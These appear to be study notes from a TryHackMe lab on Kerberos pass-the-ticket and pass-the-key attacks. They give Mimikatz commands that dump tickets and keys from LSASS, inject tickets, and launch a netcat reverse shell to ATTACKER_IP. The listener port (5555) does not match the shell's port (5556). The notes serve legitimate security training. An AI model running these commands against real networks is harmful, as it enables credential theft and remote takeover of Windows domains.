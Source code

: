 # Alternate Authentication - Kerberos
## Kerberos Authentication
### Pass-the-Ticket
- Extract Kerberos tickets and session keys from LSASS memory using Mimikatz
- Process requires SYSTEM privileges on the target machine

`mimikatz # privilege::debug`  
`mimikatz # sekurlsa::tickets /export`  

Mimikatz can extract TGT or TGS available from the memory of LSASS process.
- Interested in TGTs as they can be used to request access to any services the user is allowed to access
- TGSs are only good for specific service
- Extracting TGTs will require admin credentials
- Extracting TGSs can be done with low privileged accounts

Inject ticket into current session:  
`mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi`

Check if tickets are correctly injected:  
`za\bob.jenkins@THMJMP2 C:\> klist`  

### Overpass-the-Hash/Pass-the-Key
- Applied to Kerberos networks

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password.
- Algorithm used to derive key can either be DES, RC4, AES128 or AES256
- If we have those keys, we can ask KDC for a TGT without requiring the password (hence the name pass-the-key)

Obtain Kerberos encryption keys from memory by using Mimikatz:  
`mimikatz # privilege::debug`  
`mimikatz # sekurlsa::ekeys`

Depending on the available keys, we can run the following commands on Mimikatz to get a reverse shell via Pass-the-Key:  
- RC4 Hash  

`mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
`
- AES128 Hash  

`mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
`

When using RC4, they key will be equal to NTLM hash of user:
- Extract NTLM hash, we can request a TGT as long as RC4 is enabled (Overpass-the-Hash)

Run a reverse shell on attacking machine:  
- `nc -lvp 5555`
